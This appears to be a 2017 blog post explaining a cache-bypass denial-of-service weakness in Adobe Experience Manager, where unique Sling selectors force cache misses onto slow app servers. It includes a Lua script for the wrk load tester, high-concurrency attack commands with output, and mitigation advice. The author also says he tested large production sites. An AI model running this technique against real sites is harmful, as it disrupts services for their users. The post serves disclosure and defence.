 +++
date = "2017-05-01T13:06:36-04:00"
title = "AEM, Sling selector-based cache override DDOS attack vector"
tags = [ "aem", "sling", "jcr" ]
aliases = [ "/blog/aem-sling-selector-based-cache-override-ddos-attack-vector/", "/blurbs/aem-sling-selector-based-cache-override-ddos-attack-vector/" ]
+++

Adobe Experience Manager ([AEM](https://docs.adobe.com/content/docs/en/aem/6-3.html)), formerly known as CQ, is a best
  of breed, very popular, very expensive content management system consisting of many Apache-Foundation open source and
  proprietary Adobe Marketing Cloud tech. In AEM **everything** is content and [Sling](https://sling.apache.org/) is
  the glue that resolves HTTP requests via the [JCR](http://jackrabbit.apache.org/jcr/index.html) and renders HTTP
  responses.

One of the constructs in Sling's [URL decomposition](https://sling.apache.org/documentation/the-sling-engine/url-decomposition.html)
  is that of `selectors`. Selectors are none to many "attributes" found immediately after a resource path but before
  the resource's extension. For example:

```text
# no selector
/path/to/something.html

# one selector (abc123)
/path/to/something.abc123.html

# two selectors (ding, dong)
/path/to/something.ding.dong.html
```

These selectors are useful and generally harmless, especially when used in internal systems (like authoring). However,
  great care should be taken when deciding if and how to allow requests containing them through the various layers
  of application and network architecture for an installation/implementation.

## Attack vector

From a security point of view, the main issue with Sling is that its dynamic nature makes it vulnerable to specific
  types of attacks. Improper selector handling/configuration at the CDN or [Dispatcher](https://docs.adobe.com/docs/en/dispatcher.html)
  (static disk cache on IIS/Apache) can allow for outright by-passing of caches. Caches are an important architectural
  component of any system and they are especially important for AEM. AEM application servers are notoriously slow at rendering
  resource responses as _pages_ under load. An attack capable of delivering a high number of requests in a short period of
  time that all bypass caching infrastructure would quickly overwhelm and block thread pools established on the upstream
  AEM app servers.

## Simple attack test

I tested a few, large name systems with this type of shall we say "load tests" last week and found every single one
  unprotected and vulnerable. The following demonstrates the test, which lasted for 10-15 seconds...

First off, a simple Lua-based counter that will inject a number as a selector for each request issued from a CLI load
  testing app [wrk](https://github.com/wg/wrk)...

```text
counter = 0

request = function()
    local path = string.gsub(wrk.path, ".html", "." .. counter .. ".html")
    counter = counter + 1
    return wrk.format(wrk.method, path, wrk.headers, wrk.body)
end
```   

To execute the test, first, pick a target page to test on the target AEM system. Then, run `wrk` with a high connection
  and thread count in two passes; first without the above Lua script, then with the Lua script. The following is an example
  block with results from an actual test (not the endpoint listed)...

**Note**: Only test against target systems for which you have permission or operational control of.

```text

# test without Lua script
#
wrk -c 200 -t 50 -d 15s https://www.targethost.com/path/to/some/resource.html
Running 30s test @ https://www.targethost.com/path/to/some/resource.html
  50 threads and 200 connections
  Thread Stats   Avg      Stdev     Max   +/- Stdev
    Latency     1.01s   417.11ms   1.97s    60.60%
    Req/Sec     5.84      4.97    30.00     93.17%
  5722 requests in 30.09s, 421.57MB read
  Socket errors: connect 0, read 0, write 0, timeout 4
Requests/sec:    190.18
Transfer/sec:     14.01MB

# test with Lua script
#
wrk -c 200 -t 50 -d 15s -s counter.lua https://www.targethost.com/path/to/some/resource.html
Running 30s test @ https://www.targethost.com/path/to/some/resource.html
  50 threads and 200 connections
  Thread Stats   Avg      Stdev     Max   +/- Stdev
    Latency    92.93ms  173.21ms   1.26s    97.12%
    Req/Sec     1.48      3.22    20.00     89.49%
  647 requests in 30.10s, 47.42MB read
  Socket errors: connect 0, read 0, write 0, timeout 543
Requests/sec:     21.49
Transfer/sec:      1.58MB
```

The example command usage and output shows the target system is allowing requests through with erroneous selectors. This
  is resulting in far reduced throughput and elevated error rates.

In this situation the various layers of caching incur cache misses and call upstream to additional cache layers and so
  on until they hit the target AEM application server. At that point, the AEM application servers receive requests in
  rapid succession placing a strain on the servers available thread pool. In extreme cases, it is easy to see how this
  would cause service interruptions for legitimate users.

## Attack vector mitigation

The easiest way of protecting against this type of attack, or suffix-based attacks, which are nearly identical, is to
  flat out restrict them at the Distpacher. While this approach provides protection, it could limit or break existing
  custom and OOTB functionality provided by the platform. Adobe [recommends](https://docs.adobe.com/docs/en/aem/6-3/administer/security/security-checklist.html)
  executing selector validation at the page level (it should be resource) which would require custom code in various
  templates, base templates, etc. It might also require your authors understand and notate when certain selectors might be
  used based on the components on the page. Its not super practical. Sites likely either flat out block selectors or
  are open to potential attack.

A long, long while ago I threw up a [gist](https://gist.github.com/joshdurbin/6581142) attempting to help solve this
  problem. In the coming weeks check this space for a solution aimed at the source of truth, the app server, but with
  flexibility and performance considerations in mind!
